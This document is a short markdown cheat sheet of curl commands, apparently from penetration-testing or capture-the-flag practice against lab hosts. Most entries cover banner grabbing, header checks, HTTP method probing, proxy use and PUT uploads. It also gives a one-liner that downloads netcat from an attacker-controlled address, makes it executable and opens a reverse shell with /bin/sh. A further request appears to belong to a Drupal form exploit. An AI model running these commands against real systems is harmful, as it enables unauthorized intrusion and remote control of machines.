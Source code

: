 ## Send Data values

```
curl -k -i "http://10.10.10.9/?q=file/ajax/name/%23value/${form_build_id}" --data "form_build_id=${form_build_id}"
```

## Set Timeout

```
curl --connect-timeout 3 10.10.14.31:443/a.txt > /tmp/cat.txt
```

## Download nc using curl and execute it

```
curl --connect-timeout 3 10.10.14.31:443/nc > /tmp/nc; chmod +x /tmp/nc; /tmp/nc 10.10.14.31 3333 -e /bin/sh
```

## Banner Grabbing with curl (Alsd get web headers from this!!!!)

```
# For websites or web servers:

curl -s -I 10.10.10.11:8500

# For Other things on Ports:

curl 10.10.10.11:22

```

## Check to see if bad http methods are implemented

```
curl -sIX TRACE $TARGET

# OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
```

## Set user agent

```
curl --user-agent "user agent" url
```

## Use proxy and to get options

```
curl --proxy 127.0.0.1:8080 -sI -X OPTIONS http://10.10.10.56

```

## Put files on servers if it allows you to:

```
curl -X PUT http://192.168.30.97:8080/hello.txt -d @- < hello.txt

```